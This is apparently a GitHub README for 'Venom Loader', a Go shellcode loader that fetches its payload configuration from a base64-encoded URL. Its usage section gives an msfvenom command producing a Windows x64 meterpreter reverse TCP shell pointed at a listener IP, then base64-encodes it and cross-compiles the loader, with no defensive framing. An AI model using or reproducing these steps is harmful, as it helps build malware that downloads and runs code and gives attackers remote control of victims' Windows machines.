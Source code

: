 
# Venom Loader

A tiny shellcode loader I am having fun with. It reads a JSON file from a base64 encoded URL. It works rather nicely and works mostly as advertised.




## Usage/Examples
Modify the main.go and instr file to suit your situation before doing any of the below.
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<LISTENER_IP> LPORT=<LISTENER_PORT> -f raw -o WHATEVER.bin
base64 WHATEVER.bin > WHATEVERb64.bin
export GOOS=windows;export GOARCH=amd64 #Only if compiling on linux for windows
go build
```
At this point the loader as well as a basic payload should be ready.




## To-Do

- Make a builder script that simplifys creation of the JSON and binary.
- Remove dependancy on https://github.com/D3Ext/maldev/ to reduce built binary size.
